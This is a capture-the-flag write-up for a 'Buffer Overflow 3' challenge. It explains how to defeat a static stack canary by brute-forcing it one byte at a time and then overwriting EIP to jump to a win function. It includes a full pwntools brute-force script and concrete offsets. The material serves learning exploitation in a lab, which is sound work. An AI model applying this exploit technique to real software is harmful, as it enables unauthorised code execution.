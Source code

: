 # Buffer Overflow 3

Finally on the last one in the buffer overflow series, lets knock it out! We start by looking at the vuln.c file. We see our usual win function opening the flag file and printing it. The next function is very intresting though, read_canary(). This is opening a file called canary.txt and putting it into a global_canary variable.

Next we see our vuln() function; this is doing a few new things. we see it copying the global_canary into a canary variable in the function, we're gonna be asked ofrhow many bytes we want to write, then we'll get to put in our input. However, this time if the canary get's overwritten in the stack the program will crash.

So we got a few things going for us here. First the canary is read from a file, that means it is static and won't be changing on us, second if we guess the canary (which we know is four bytes) then we can overflow the stack and put the canary back intact, and lastly - we get to control the length of our input - this means we can guess at the canary one byte at a time instead of trying all combinations.

So first we need to figure out how much we need to write before we hit the canary (which is added at the end of the buffer). Having the C code lets us know the buffer size of the input is set to 64; but lets verify that because why not! Lets go ahead and grab the win function address while we're at it.

First lets setup a breakpoint. Disassemble the vuln() function and notice the memcpy down at the bottom, this is most likely our stack check because in the vuln.c we see a memcpy used in the if. So lets break right before that.

Alright, so now we create a pattern of 200, copy that, start the program, and tell it we're going to send it 200 bytes and then paste in our string.

We should hit our break point, notice in the stack that our test flag is there in position 0. Hit 'n' or 'next' to go to the memcpy statment and see the stack now has our string before the canary. Sweet so we can now see how many bytes this was - 64!

So now we know how many bytes we need to send to hit the canary. Lets see if we can write a quick loop to find the canary. Lets make our pwntools template per usual and then setup our loop.

```python
#set our win function
win=p32(0x08049336)
#set our buffer
buffer = 64
#set a blank canary value
canary = ''
#we know the canary is four bytes so setup our while loop
while len(canary) < 4:
    #for each item in the rang of ASCII printable characters
    for i in range(32,127):
        #start the program
        p = start()
        #set length to our buffer, plus how long the canary is, plus 1
        length = 64+len(canary)+1
        #send our length number to the first input
        p.sendlineafter("> ", str(length))
        #setup our payload
        payload = "A"*buffer+canary+chr(i)
        #print payload if you'd like to watch it
        #print(payload)
        #send payload tot he input
        p.sendlineafter('> ', payload)
        #print the character we're at if your curious
        #print(chr(i))
        #receive the line returned to see if we broke the canary
        l = p.recvline()
        
        #check if we broke the canary; if we didn't then we guessed the right char and add it to the canary
        if '*** Stack Smashing Detected' not in str(l):
            canary += chr(i)
            log.info('Partial canary: {}'.format(canary))
            break
        #close out the run
        p.close()
#once done print out the canary
log.success('Found canary: {}'.format(canary))
```

Ok, so now we have the canary. We can now attempt to gain control of EIP, we will send in 64 bytes to get us to the canary, the canary, and then follow that up with a pattern to see if we can find the offset from the canary to EIP overwrite. We say we're sending 268 bytes because 64 + 4 (canary) + 200 byte pattern.

We found that the EIP overwrite is 16bytes after the canary. Now just construct our payload and lets send it on!

Sweet; now just send it to the remote server and lets see what happens!